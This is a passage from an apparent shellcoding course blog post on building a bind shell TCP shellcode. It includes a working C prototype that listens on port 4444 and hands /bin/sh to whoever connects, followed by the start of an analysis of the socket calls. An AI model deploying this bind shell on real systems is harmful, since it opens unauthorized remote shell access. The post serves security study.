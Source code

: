 ```yaml
---
layout: single
title: Creating a Bind Shell TCP Shellcode
date: 2018-09-04
categories:
  - security
  - shellcoding
tags:
  - securitytube
  - slae
---
```


"Bind shells" are used to spawn a shell on a remote system and provide access to it over a network. At minimum, a bind shell would need to carry out the following tasks:

1. Create a socket and listen for a new connection
2. Spawn a shell when a connection is established
3. Redirect the STDERR, STDIN and STDOUT streams to the new connection

In C, this would look something like this:

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <unistd.h>

int main ()
{
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

Analysis of the C Prototype
---------------------------
The man pages for `socket` (see `man 2 socket`) lists the domains and types that can be used when creating a socket. In this instance, `AF_INET` and `SOCK_STREAM` are used to create an IPv4 socket.
